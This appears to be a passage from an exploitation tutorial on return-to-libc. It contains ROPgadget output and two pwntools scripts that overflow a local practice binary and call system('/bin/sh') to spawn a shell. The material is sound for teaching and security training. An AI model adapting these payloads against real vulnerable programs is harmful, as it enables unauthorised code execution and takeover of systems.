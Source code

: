 ```
$ ROPgadget --binary vuln-64 | grep rdi

[...]
0x00000000004011cb : pop rdi ; ret
```

```python
from pwn import *

p = process('./vuln-64')

libc_base = 0x7ffff7de5000
system = libc_base + 0x48e20
binsh = libc_base + 0x18a143

POP_RDI = 0x4011cb

payload = b'A' * 72         # The padding
payload += p64(POP_RDI)     # gadget -> pop rdi; ret
payload += p64(binsh)       # pointer to command: /bin/sh
payload += p64(system)      # Location of system
payload += p64(0x0)         # return pointer - not important once we get the shell

p.clean()
p.sendline(payload)
p.interactive()
```

## Automating with Pwntools

Unsurprisingly, pwntools has a bunch of features that make this much simpler.

```python
# 32-bit
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                        # Simply grab the libc it's running with
libc.address = 0xf7dc2000              # Set base address

system = libc.sym['system']            # Grab location of system
binsh = next(libc.search(b'/bin/sh'))  # grab string location

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```
